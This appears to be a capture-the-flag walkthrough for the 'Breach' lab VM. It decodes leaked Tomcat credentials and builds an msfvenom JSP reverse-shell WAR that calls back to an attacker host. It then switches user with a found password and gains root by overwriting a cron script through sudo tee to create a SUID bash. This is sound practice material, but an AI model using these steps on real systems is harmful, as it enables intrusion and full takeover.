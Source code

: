 
# Upload web shell with tomcat web application manager
    
## Connect to tomcat

    Use Burp suite https://192.168.56.140:8443/_M@nag3Me/html

    $ echo dG9tY2F0OlR0XDVEOEYoIyEqdT1HKTRtN3pC | base64 -d
    tomcat:Tt\5D8F(#!*u=G)4m7zB

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.1 LPORT=4444 -f war > update.war

    ls -al /home/
    total 16
    drwxr-xr-x  4 root      root      4096 Jun  4  2016 .
    drwxr-xr-x 22 root      root      4096 Jun  4  2016 ..
    drwxr-xr-x  3 blumbergh blumbergh 4096 Jun 12  2016 blumbergh
    drwxr-xr-x  3 milton    milton    4096 Jun  6  2016 milton

## Gain blumbergh connection

    tomcat6@Breach:/etc$ su blumbergh
    su blumbergh
    Password: coffeestains


# Get root

    blumbergh@Breach:/etc$ sudo -l
    sudo -l
    Matching Defaults entries for blumbergh on Breach:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User blumbergh may run the following commands on Breach:
        (root) NOPASSWD: /usr/bin/tee /usr/share/cleanup/tidyup.sh

    ls -al /usr/share/cleanup/tidyup.sh
    -rwxr-xr-x 1 root root 47 Nov 27 06:13 /usr/share/cleanup/tidyup.sh

    cat /usr/share/cleanup/tidyup.sh
    #!/bin/bash

    #Hacker Evasion Script 
    #Initech Cyber Consulting, LLC
    #Peter Gibbons and Michael Bolton - 2016
    #This script is set to run every 3 minutes as an additional defense measure against hackers.

    cd /var/lib/tomcat6/webapps && find swingline -mindepth 1 -maxdepth 10 | xargs rm -rf
    blumbergh@Breach:/etc$ 

    echo 'cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash' | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
